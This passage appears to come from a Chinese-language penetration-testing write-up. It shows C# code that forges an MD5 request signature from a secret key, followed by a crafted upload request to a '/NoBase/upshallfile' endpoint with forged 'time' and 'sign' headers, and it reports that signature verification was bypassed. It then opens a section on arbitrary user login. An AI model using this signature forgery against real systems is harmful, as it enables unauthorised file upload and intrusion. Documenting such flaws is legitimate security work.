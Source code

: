 > 
> ConvertString = key + ConvertString + key;
> 
> MD5CryptoServiceProvider md5CryptoServiceProvider =
> **newMD5CryptoServiceProvider**();
> 
> string text =
> BitConverter.**ToString**(md5CryptoServiceProvider.**ComputeHash**(Encoding.UTF8.**GetBytes**(ConvertString)));
> 
> text = text.**Replace**("-", "");
> 
> result = text;
> 
> }
> 
> **catch**
> 
> {
> 
> result = "";
> 
> }
> 
> return result;
> 
> }}}

![](https://fmmvzwzcqb.feishu.cn/space/api/box/stream/download/asynccode/?code=Njc4NGRkZmUxYTZjY2FlYTYwNTEzZWE3NGZjZjFjZWFfQk9DVWxLdVM2SjNEOTUzVEFINmNHYWtxYUQyRUcyc05fVG9rZW46Ym94Y240RDhiaVFaamJVZXViRXQwb2M5RHZjXzE2NTExNTc3MTg6MTY1MTE2MTMxOF9WNA)

记得Main方法M大写，这里运行完毕

![](https://fmmvzwzcqb.feishu.cn/space/api/box/stream/download/asynccode/?code=ODc1YmZjMjlhNGZlYTA1MmI2OWZhYmE3OWU4OTFlNDRfUlExTFI3c0RvZU5kUXh5MHF1a1FoT090YXpvdVB5cDVfVG9rZW46Ym94Y240WFdHTGRMaDRTNzlUcXZPb1RHSm9kXzE2NTExNTc3MTg6MTY1MTE2MTMxOF9WNA)

构造数据包参考了文章：

> POST /NoBase/upshallfile HTTP/1.1
> 
> Content-Type: multipart/form-data;
> boundary="6e9cb0ae-23eb-49bf-92d6-16dcbb95bd8a"
> 
> time: 2999121212120000
> 
> sign: 37B9A34FCBBD20E97BCA7076214FBBDA
> 
> path: /

![](https://fmmvzwzcqb.feishu.cn/space/api/box/stream/download/asynccode/?code=OTA0OTY2MjI3YTMzYTUzMWM3MGM5ZDkzZjk1NTA4OTBfWVNDajREMWFLcUhVV2QyQ3dxamt4UW5aSFBmblBCZU9fVG9rZW46Ym94Y241YmJMVlBRbzhycVdkU241WnNLanViXzE2NTExNTg3OTQ6MTY1MTE2MjM5NF9WNA)

不确定系统是否已修复，但是error报错为cutfile，在文件分割时报错了，证明前一步签名验证是成功绕过的

### 2.任意用户登录
